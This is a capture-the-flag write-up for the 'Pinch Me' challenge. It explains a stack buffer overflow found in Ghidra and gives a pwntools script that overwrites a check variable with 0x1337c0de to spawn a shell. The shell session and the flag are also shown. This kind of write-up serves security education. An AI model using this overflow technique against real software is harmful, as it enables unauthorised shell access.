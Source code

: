 ## Pinch Me (100 Points)

### Problem  
```  
This should be easy!

nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480

File: pinch_me  
```

### Solution  
I opened the binary in Ghidra and looked at `main()` and `vuln()`.

It looks pretty similar to the [Pwn Sanity Check](PwnSanityCheck.md)
challenge, we need to overflow our input and ensure the shell gets executed.

Looking at `vuln()` we see that `fgets` reads in `100` bytes into `local_28`
which only has `24` bytes allocated - so the remaining bytes will overflow
into `local_10`.  
We see from the C code that there's a condition to be met before the shell
executes.

```C  
if (local_10 == 0x1337c0de) {  
 system("/bin/sh");  
}  
```

Can we just send 24 bytes of data and use `p64` to pack the address
`0x1337c0de` so then our condition will be met? Let's write some Python and
find out.

```python  
from pwn import *

host = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)  
host.recv()

buffer_overflow = b'a'*24  
buffer_overflow += p64(0x1337c0de)

host.sendline(buffer_overflow)  
host.interactive()  
```

Running our exploit...

```  
❯ python3 exploit.py  
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on
port 7480: Done  
[*] Switching to interactive mode  
$ ls  
flag.txt  
pinch_me  
startService.sh  
$ cat flag.txt  
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}  
```

Flag: `dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}`  

Original writeup
(https://github.com/cieran/writeups/blob/main/DragonCTF/pwn/PinchMe.md).
